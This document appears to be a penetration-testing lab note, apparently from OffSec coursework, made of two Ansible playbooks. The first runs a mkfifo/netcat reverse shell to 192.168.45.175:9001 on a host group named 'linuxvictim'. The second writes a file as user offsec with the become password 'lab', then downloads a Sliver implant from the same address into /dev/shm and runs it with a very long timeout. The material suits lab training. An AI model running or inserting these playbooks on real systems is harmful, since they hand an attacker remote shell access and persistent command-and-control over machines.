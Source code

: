 
- revshell
```yaml
---
- name: Execute a reverse shell on the target host
  hosts: linuxvictim
  tasks:
    - name: Run reverse shell
      shell: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.45.175 9001 >/tmp/f
      async: 30
      poll: 0
      ignore_errors: yes

```

- download and execute with a large timeout so the shell doesn't die
```yaml
- name: Write a file as offsec
  hosts: all
  gather_facts: true
  become: yes
  become_user: offsec
  vars:
    ansible_become_pass: lab
  tasks:
    - copy:
          content: "This is my offsec content"
          dest: "/home/offsec/written_by_ansible.txt"
          mode: 0644
          owner: offsec
          group: offsec
    - name: Download and execute sliver shell
      shell: "cd /dev/shm; curl http://192.168.45.175:8000/BINDING_MAYOR -o shell && chmod +x shell && ./shell"
      async: 99999999
      poll: 0
      ignore_errors: yes
```
